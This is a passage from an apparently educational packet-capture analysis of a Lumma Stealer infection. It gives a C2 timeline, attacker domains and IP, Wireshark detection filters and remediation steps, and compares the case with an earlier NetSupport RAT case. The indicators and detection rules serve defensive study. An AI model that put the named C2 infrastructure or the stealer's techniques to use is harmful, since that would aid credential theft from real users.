| ~23:05 UTC | 25286 | POST /api/set_agent&act=log, Edge telemetry exfiltrated |
| ~23:05 UTC | 25410 | TLS Client Hello SNI=whitepepper.su (port 443), encrypted follow-on begins |
| ~23:06 UTC | 27839 | TLS Client Hello SNI=holiday-forever.cc |
| ~23:06 UTC | 28013 | TLS Client Hello SNI=communicationfirewall-security.cc |
| +10.3 hours | ~51,181 | Last frame, C2 activity ongoing, no disconnect observed |

---

## Malware Family Assessment

**Confidence: Confirmed**

Lumma Stealer (also known as LummaC2) is a widely distributed infostealer active since 2022. The evidence that confirms this specific family:

- `/api/set_agent` is a documented Lumma Stealer C2 registration endpoint
- The bot ID and token structure in the GET parameters matches published Lumma behavioral analysis
- Canvas fingerprinting and WebDriver detection are documented Lumma anti-sandbox techniques
- Plain HTTP for registration followed by TLS for exfiltration is consistent with Lumma's documented behavior
- The `.su` TLD for the primary C2 domain is a Lumma campaign characteristic
- Domain rotation across multiple TLDs is consistent with Lumma's infrastructure pattern
- Chrome and Edge vault targeting with separate agent registrations per browser is a documented Lumma capability

This assessment was validated against the malware-traffic-analysis.net exercise answer key after completing the independent analysis.

---

## Recommended Remediation

**1. Immediate host isolation**
Disconnect 10.1.21.58 via EDR isolation or physical network disconnect. Lumma exfiltrated a full hardware and browser fingerprint within seconds of C2 contact. The 10.3-hour capture means the operator had sustained access throughout.

**2. Credential and session revocation for gwyatt (Gabriel Wyatt)**
- Force AD password reset immediately
- Revoke all active Kerberos TGTs across Active Directory
- Force logout of all active sessions across every SaaS application the user accessed from this machine
- Revoke and rotate any browser-stored API keys, access tokens, and saved passwords visible to Chrome and Edge
- Notify any services whose credentials were stored in either browser. Banking, cloud storage, email, and all enterprise SaaS platforms should be treated as potentially compromised

**3. Perimeter blocks**
Add all seven identified domains and 153.92.1[.]49 to firewall blocklists, DNS sinkholes, and web proxy deny lists.

**4. Detection rules**

```
# HTTP C2 endpoint
http.request.uri contains "/api/set_agent"

# Suspicious TLD alerting
dns.qry.name matches "\.su$|\.cyou$|\.sbs$"

# Spoofed Chrome version
http.user_agent contains "Chrome/14"

# Lumma canvas fingerprint POST size indicator
http.request.method == POST && http.content_length > 7000
```

**5. Scope the incident**
Search all hosts on 10.1.21.0/24 for DNS queries to any of the seven identified domains or HTTP requests to `/api/set_agent`. Lumma campaigns frequently affect multiple users from a single phishing link.

**6. Credential harvesting impact assessment**
Lumma specifically targets saved passwords, cookies, cryptocurrency wallets, and browser session tokens. Every service whose credentials were saved in Chrome or Edge on this machine should be treated as compromised regardless of whether active misuse has been detected. The operator has had the credential data for over 10 hours.

---

## Comparison with Investigation 1: NetSupport RAT

The same methodology produces different results depending on the malware family, and knowing how to read those differences is the actual analyst skill.

| Factor | Investigation 1 (NetSupport RAT) | Investigation 2 (Lumma Stealer) |
|---|---|---|
| C2 protocol | Plaintext HTTP only on port 443 | Dual channel: HTTP port 80 and TLS port 443 |
| TLS present | Zero TLS packets on C2 IP | 16+ TLS sessions to primary C2 |
| DNS for C2 | Direct IP, no domain needed | 7 domains across 5 TLDs, domain rotation |
| C2 domains | None | whitepepper.su and 6 additional domains |
| User-Agent | Self-identifying (NetSupport Manager/1.3) | Spoofed (non-existent Chrome/144) |
| Beaconing | 60-second fixed intervals for 4.4 hours | Registration then sustained TLS sessions |
| Primary IOC | /fakeurl.htm URI and NetSupport UA | /api/set_agent URI and Chrome/144 UA |
| Data exfiltrated | Encoded system telemetry (CMD=ENCD) | 8,023-byte hardware and browser fingerprint |
| Anti-sandbox | None observed | Canvas fingerprint and WebDriver check |

---

## Connection to Phases 1 Through 4

**Phase 1: Protocol Identification and Wireshark Fundamentals**
Every filter in this investigation came from the foundational filtering work in Phase 1. The structured sequence from conversations to DHCP to Kerberos to DNS to HTTP to TLS is the workflow built across the early phases applied to a real infection.

**Phase 2: TCP Handshake and Connection Analysis**
The TCP stream follow on frame 24500 that extracted the full 8,023-byte POST fingerprinting body used the same technique from Phase 2. Without following the stream, the full scope of what Lumma exfiltrated would not be visible since only the GET request and response codes appear in the packet list. The Ethernet MAC analysis that found the victim MAC and identified the gateway MAC also came from Phase 2.

**Phase 3: DNS Traffic Analysis**
The DNS investigation methodology here came from Phase 3: filter by source, exclude internal domains, check TLDs, and verify with TXT and NULL type filters. Lumma's domain rotation across seven domains and five TLDs is a more sophisticated version of the multi-domain C2 infrastructure discussed in Phase 3. The masquerade domain `communicationfirewall-security.cc` required the same false positive verification discipline used when investigating the Microsoft Edge CDN domain in Investigation 1.

**Phase 4: HTTP and HTTPS Traffic Analysis**
The User-Agent analysis that caught the spoofed Chrome/144 version came directly from Phase 4's suspicious User-Agent work. The SNI extraction from TLS Client Hello packets showing `whitepepper.su`, `holiday-forever.cc`, and `communicationfirewall-security.cc` used the same `tls.handshake.type == 1` filter from Phase 4. The finding that 153.92.1[.]49 uses both plain HTTP and TLS (unlike NetSupport RAT which used neither) shows the ability to apply the same methodology and read different results correctly.

---

## Key Findings Summary

| Stage | Finding | Significance |
|---|---|---|
| Host identification | 10.1.21.58, DESKTOP-ES9F3ML, gwyatt (Gabriel Wyatt) | Full victim profile via DHCP, Kerberos, and SAMR |
| Alert domain | whitepepper.su resolving to 153.92.1[.]49 | Confirmed via HTTP Host header and DNS A record cross-reference |
| DNS investigation | 7 malicious domains across 5 TLDs, domain rotation confirmed | More layered C2 infrastructure than Investigation 1 |
| Masquerade domain | communicationfirewall-security.cc | Designed to appear as legitimate security software |
| Chrome registration | GET /api/set_agent with Chrome/144 (non-existent version) | Documented Lumma endpoint and spoofed User-Agent |
| Fingerprinting payload | 8,023-byte POST with hardware, GPU, canvas, font, and audio data | Full victim fingerprint sent within seconds of C2 contact |
| Anti-sandbox | Canvas fingerprint and WebDriver: false check | Lumma verified it was in a real browser before proceeding |
| Edge registration | Second agent registration for Edge browser vault | Chrome and Edge credential stores both targeted separately |
| TLS dual channel | 16 TLS sessions to primary C2 on port 443 | Credential exfiltration encrypted, contrasts directly with Investigation 1 |
